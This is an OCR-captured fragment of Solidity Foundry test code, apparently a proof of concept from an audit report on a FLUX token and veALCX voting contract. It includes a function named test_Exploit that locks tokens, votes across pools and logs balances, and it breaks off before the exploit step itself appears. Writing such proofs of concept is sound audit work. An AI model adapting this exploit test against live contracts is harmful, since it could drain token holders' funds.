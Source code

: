 ``` 

        vm.startPrank(holder);

        voter.reset(id1);
        voter.reset(id2);
        voter.reset(id3);

        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of any id of the three after resetting is : ", unclaimedBalance2);

        console.log("The FLUX Balance of total user IDs after resetting in (normal situation) is : ", unclaimedBalance2 * 3);


        console.log("so that what should happen in normal .. the next we will preview the exploit that could totally take on the flux token system");

  

}

  function test_Exploit() public { 

      vm.startPrank(holder);


        uint256 id1 = _lockVeALCX(TOKEN_100K);
        uint256 id2 = _lockVeALCX(TOKEN_100K);
        uint256 id3 = _lockVeALCX(TOKEN_100K); 



        vm.stopPrank();


        _setupgauge();




        vm.startPrank(holder);

        
        address[] memory pools = new address[](1);
        address[] memory pools2 = new address[](1);
        uint256[] memory weights = new uint256[](1);
        pools[0] = alUsdPoolAddress;
        pools2[0] = alEthPoolAddress;
        weights[0] = 1;

        voter.vote(id1, pools, weights, 0);
        voter.vote(id2, pools2, weights, 0);
        voter.vote(id3, pools, weights, 0);



        uint256 unclaimedBalance11 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of any id now is : ", unclaimedBalance11);


```